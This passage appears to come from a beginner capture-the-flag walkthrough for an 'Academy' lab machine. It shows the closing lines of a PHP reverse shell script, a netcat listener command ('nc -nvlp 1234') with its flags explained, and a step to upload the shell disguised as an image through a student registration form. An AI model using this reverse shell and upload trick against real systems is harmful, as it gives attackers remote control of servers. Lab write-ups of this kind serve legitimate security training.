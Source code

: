 ```
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

you can copy this and creat a `.php` file & paste it in that  file

```
$ nano shell.php
 
[Paste it here]
```

Make sure to modify the **$ip** & **$port**  & save it

Now let's listen to the port by using `netcat`
```
$ nc -nvlp 1234

-nvlp - `n` tells the netcat to use numeric ip addresses only 
        `v` Enables the verbose mode 
        `l` Listen for incoming connection
1234  - is the port which you want to listen to        


```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/listening.png)

Now go to the **Student Registeration** & **Upload the shell.php as image** 

